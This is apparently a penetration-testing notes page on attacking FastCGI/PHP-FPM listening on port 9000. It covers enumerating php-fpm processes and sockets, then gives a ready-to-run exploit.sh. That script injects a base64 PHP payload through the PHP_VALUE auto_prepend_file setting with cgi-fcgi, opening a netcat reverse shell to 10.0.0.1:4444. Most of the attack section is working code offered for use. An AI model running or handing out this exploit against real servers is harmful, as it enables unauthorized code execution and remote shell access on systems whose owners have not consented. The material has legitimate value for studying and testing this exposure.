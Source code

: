 ```yaml
---
description: Port TCP 9000
---
```


# FastCGI

## Theory

FastCGI is a binary protocol for interfacing interactive programs with a web server. It uses the **9000 port** by default.  **Usually** FastCGI only listen in **localhost and** It's quiet easy to make FastCGI execute arbitrary code.

## Practice

{% tabs %}
{% tab title="Enumerate" %}
If the **PHP-FPM (FastCGI Process Manager)** is running on the target system, we might be able to execute arbitrary command.

```bash
#Enum processes
ps aux | cat| grep php-fpm
php-fpm: pool username

#Enum network
ss -lntp
LISTEN 0    511    127.0.0.1:9000    0.0.0.0:*
```
{% endtab %}

{% tab title="Exploit" %}
We need to create an arbitrary PHP file somewhere. For instance,

```bash
touch /dev/shm/index.php
```

Then using the following shell script **"exploit.sh",** we can obtain a reverse shell

{% code title="exploit.sh" %}
```bash
#!/bin/bash

PAYLOAD="<?php echo '<!--'; system('rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 4444 >/tmp/f'); echo '-->';"
FILENAMES="/dev/shm/index.php" # Exisiting file path

HOST=$1
B64=$(echo "$PAYLOAD"|base64)

for FN in $FILENAMES; do
    OUTPUT=$(mktemp)
    env -i \
      PHP_VALUE="allow_url_include=1"$'\n'"allow_url_fopen=1"$'\n'"auto_prepend_file='data://text/plain\;base64,$B64'" \
      SCRIPT_FILENAME=$FN SCRIPT_NAME=$FN REQUEST_METHOD=POST \
      cgi-fcgi -bind -connect $HOST:9000 &> $OUTPUT

    cat $OUTPUT
done

```
{% endcode %}

Execute it:

```bash
chmod +x exploit.sh
./exploit.sh localhost
```
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://exploit-notes.hdks.org/exploit/network/fastcgi-pentesting/" %}

{% embed url="https://book.hacktricks.xyz/network-services-pentesting/9000-pentesting-fastcgi" %}
